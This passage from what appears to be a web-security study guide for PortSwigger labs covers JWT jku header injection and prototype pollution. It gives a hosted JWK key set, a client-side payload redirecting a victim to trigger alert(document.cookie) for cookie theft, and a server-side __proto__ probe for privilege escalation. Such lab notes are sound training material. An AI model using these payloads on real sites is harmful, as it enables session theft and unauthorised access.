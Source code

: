 > The exploit server hosting the JWK public key content.

```JSON
{ "keys": [
{
    "kty": "RSA",
    "e": "AQAB",
    "kid": "3c0171bd-a8cf-45b5-839f-645fa2a57009",
    "n": "749eJdyiwAYYVV    <snip>   F8tsQ_zu23DhdoePay3JlYXmza9DWDw"
}
]}
```

[PortSwigger Lab: JWT authentication bypass via jku header injection](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection)

***

### ProtoType Pollution

> Attacker add arbitrary properties to global JavaScript object prototypes, which is inherited by user-defined objects that lead to client-side DOM XSS or server-side code execution.

[Client-Side Proto](broken-reference)\
[Server-Side Proto](broken-reference)\
[Dom Invader Enable Prototype Pollution](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#enabling-prototype-pollution)

#### Client-Side Proto

> A target is vulnerable to DOM XSS via client side prototype pollution. [**DOM Invader**](broken-reference) will _**identify**_ the gadget and using a hosted payload to performing phishing directed at the victim and steal their cookie.

> Exploit server Body section, host an exploit that will navigate the victim to a malicious URL.

```html
<script>
    location="https://TARGET.NET/#__proto__[hitCallback]=alert%28document.cookie%29"
</script>  
```

> Above image show the **Deliver to Victim** phishing request being send.

[PortSwigger Lab: Client-side prototype pollution in third-party libraries](https://portswigger.net/web-security/prototype-pollution/finding/lab-prototype-pollution-client-side-prototype-pollution-in-third-party-libraries)

#### Server-Side Proto

> To _**identify**_ Proto pollution, insert the follow into a JSON post request when updating a user profile information authenticated as low privileged role.\
> See instruction video by [Trevor TJCHacking](https://youtu.be/oYAxbRiB0Jk) about PrivEsc via server-side prototype pollution.

```JSON
"__proto__": {
    "foo":"bar"
}
```
